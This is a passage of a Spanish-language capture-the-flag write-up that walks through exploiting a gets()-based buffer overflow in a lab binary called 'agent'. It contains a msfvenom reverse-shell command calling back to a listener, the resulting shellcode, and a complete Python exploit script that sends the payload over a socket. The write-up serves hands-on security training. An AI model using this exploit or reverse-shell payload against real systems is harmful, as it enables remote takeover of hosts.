

8. Una vez detectado el valor con el que compara nuestro input podemos ver su valor decimal para obtener el `Agent_ID`
	


9. Ahora con el ID podemos tratar de acceder al recurso que obtuvimos
	


**Nota:** Para saber más sobre este proceso ver [[Ingeniería Inversa)

10. Analizando la función `main` podemos acceder con doble click al resto de funciones que la integran. En este punto, tenemos que buscar elementos vulnerables. Por ejemplo, `fget` es una función que almacena el input del usuario, pero lo limita a un nº de caracteres. En cambio la función `gets` no tiene esta limitación de caracteres, lo que la hace propensa a un *Buffer Overflow* (o desbordamiento de Buffer)
	

	


---

## Buffer Overflow con PEDA

Para saber más sobre GBD-PEDA, ver [Instalación GDB-PEDA](../../Herramientas/GDB-PEDA/Instalación%20GDB-PEDA.md)

### Secuencia de explotación de BOF con PEDA

Acción:

```bash
gdb -q ./agent
```

Resultado:

```bash
Reading symbols from ./agent...
(No debugging symbols found in ./agent)
gdb-peda$ 
```

Explicación: Cargamos el módulo de PEDA en GDB y al ver que se inicia como `gdb-peda$` usamos el comando `r` para iniciar el recurso.

```bash
gdb-peda$ r
Starting program: /home/metahumo/Escritorio/GramsciXI/Machines/IMF/content/agent 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
  ___ __  __ ___ 
 |_ _|  \/  | __|  Agent
  | || |\/| | _|   Reporting
 |___|_|  |_|_|    System


Agent ID : 
```

Añadimos el `Agent ID` que vimos anteriormente que correspondía a: 48093572

Resultado:

```bash
Login Validated 
Main Menu:
1. Extraction Points
2. Request Extraction
3. Submit Report
4. Exit
Enter selection: 
```

Acción: como vimos que la función vulnerable a un *BOF* se encuentra en el apartado de `Report` vamos a la opción 3 y tratar de abusar de esa función `gets` que no valida el nº de caracteres introducidos por el usuario

Primero imprimimos 200 'A' para probar si se produce un desbordamiento de buffer y si vemos algún error por pantalla

```bash
python -c 'print("A" * 200)'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

```bash
  ___ __  __ ___ 
 |_ _|  \/  | __|  Agent
  | || |\/| | _|   Reporting
 |___|_|  |_|_|    System


Agent ID : 48093572    
Login Validated 
Main Menu:
1. Extraction Points
2. Request Extraction
3. Submit Report
4. Exit
Enter selection: 3

Enter report update: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Resultado:



Explicación: vemos un error y el EIP correspondiente. Podemos saber más de este proceso en *Asignación de espacio para el Shellcode*

Acción:

```bash
gdb-peda$ pattern create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
```

Explicación: obtener el **Offset** o **desplazamiento** o **distancia** hasta EIP lo podemos calcular introduciendo en lugar de 200 'A' esta otra secuencia de 200 caracteres que nos van a  permitir saber el nº exacto de caracteres donde se produce el desbordamiento



Acción: lo cómodo de usar **gdb-peda** es que podemos calcular el *offset* fácilmente de la siguiente manera 

```bash
gdb-peda$ pattern offset $eip
1950433622 found at offset: 168
```

Explicación: ahora sabemos que son 168 caracteres los permitidos, y que a partir de ahí se producirá el *BOF* (es decir, sobrescribir el EIP), lo que nos permite avanzar en el proceso de introducir los comandos para una *Reverse Shell*

Acción: imprimimos 168 'A' y añadimos 4 'B' 

```bash
python -c 'print("A"*168 + "B"*4)'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
```

Resultado: volvemos a repetir el proceso y esta vez vemos si tenemos control sobre el EIP y vemos los valores de 4 'B' que son 42424242



**Confirmamos control sobre el valor EIP**

Acción: usamos el comando `checksec` dentro del gdb-peda para ver que esta habilitado y deshabilitado. 

```bash
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```

Acción: ahora buscamos controlar la *pila o stack* para la ejecución de comandos. Usamos `i r` para ver información sobre el registro y lueog comprobamos los 16 valores del *esp* y de *eax*





Explicación: hemos visto el contenido del *esp* pero no hemos encontrado nuestras 'A' `0x41414141` pero al analizar el registro de *eax* sí que vemos los valores de 'A' pero al retroceder 4 registros vemos que ya aparece otro valor

Acción: vamos a crear un shellcode con *msfvenom*

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.66 LPORT=443 -b '\x00\x0a\0xd' -f c
```

Resultado:

```bash
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 92 (iteration=0)
x86/call4_dword_xor chosen with final size 92
Payload size: 92 bytes
Final size of c file: 413 bytes
unsigned char buf[] = 
"\x2b\xc9\x83\xe9\xef\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76"
"\x0e\xcd\xf8\x18\xe0\x83\xee\xfc\xe2\xf4\xfc\x23\xef\x03"
"\x9e\xbb\x4b\x8a\xcf\x71\xf9\x50\xab\x35\x98\x73\x94\x48"
"\x27\x2d\x4d\xb1\x61\x19\xa5\x38\xb0\xe1\x8f\x90\x1a\xe0"
"\xcc\x43\x91\x01\x7d\x9e\x48\xb1\x9e\x4b\x1b\x69\x2c\x35"
"\x98\xb2\xa5\x96\x37\x93\xa5\x90\x37\xcf\xaf\x91\x91\x03"
"\x9f\xab\x91\x01\x7d\xf3\xd5\x60";
```

Acción: `nvim exploit.py`

Resultado:

```bash
#!/usr/bin/python3

from struct import pack
import socket

shellcode = (b"\x2b\xc9\x83\xe9\xef\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76"
b"\x0e\x11\x5b\xa3\x92\x83\xee\xfc\xe2\xf4\x20\x80\x54\x71"
b"\x42\x18\xf0\xf8\x13\xd2\x42\x22\x77\x96\x23\x01\x48\xeb"
b"\x9c\x5f\x91\x12\xda\x6b\x79\x9b\x0b\x93\x53\x33\xa1\x92"
b"\x10\xe0\x2a\x73\xa1\x3d\xf3\xc3\x42\xe8\xa0\x1b\xf0\x96"
b"\x23\xc0\x79\x35\x8c\xe1\x79\x33\x8c\xbd\x73\x32\x2a\x71"
b"\x43\x08\x2a\x73\xa1\x50\x6e\x12")

offset = 168

# > objdump -d agent | grep -i "FF D0"
#   8048563:	ff d0                	call   *%eax

payload = shellcode + b"A" * (offset - len(shellcode)) + pack("<I", 0x08048563) + b"\n"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 7788))
s.recv(1024)
s.send(b"48093572\n")
s.recv(1024)
s.send(b"3\n")
s.recv(1024)
s.send(payload)
```

Acción: buscamos este valor para saber la estructura de *eax* FFD0

```bash
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > call eax
00000000  FFD0              call eax
```

Acción: 

**Nota:** para este caso trajimos al directorio actual el binario `agent` (`cp ../content/agent .`) para poder ejecutar este comando 

```bash
objdump -d agent | grep -i "FF D0"
```

Resultado: obtenemos el valor eax que podemos usar en el script ya que esta se va a mantener estática

```bash
8048563:	ff d0                	call   *%eax
```

Explicación: ejecutamos un canal de escucha con `nc -nlvp 443` y luego ejecutamos el script desde el terminal vulnerado, podemos copiarlo en la ruta `/tmp/` y ejecutarlo con `python3 exploit.py`

---
